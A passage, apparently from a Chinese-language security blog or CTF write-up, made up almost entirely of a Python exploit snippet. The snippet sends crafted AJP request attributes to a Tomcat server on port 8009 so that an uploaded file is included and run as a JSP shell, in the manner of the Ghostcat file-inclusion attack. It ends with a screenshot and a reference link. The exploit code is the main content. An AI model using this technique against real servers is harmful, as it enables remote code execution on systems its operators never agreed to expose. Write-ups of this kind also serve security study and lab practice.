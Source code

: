 ```
shell_path = r.data.decode('utf-8').strip('\x00').split('/')[-1]
print("="*50)
print(shell_path)
print("="*50)
gc = Tomcat('127.0.0.1', 8009)
attributes = [
    {"name": "req_attribute", "value": ("javax.servlet.include.request_uri", "/",)},
    {"name": "req_attribute", "value": ("javax.servlet.include.path_info", shell_path,)},
    {"name": "req_attribute", "value": ("javax.servlet.include.servlet_path", "/",)},
]
hdrs, data = gc.perform_request("/uploads/1.jsp", attributes=attributes)
output = sys.stdout
for d in data:
    try:
        output.write(d.data.decode('utf8'))
    except UnicodeDecodeError:
        output.write(repr(d.data))

```

![1](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/login_me/8.png)



参考链接：

https://xz.aliyun.com/t/7986?page=5#toc-1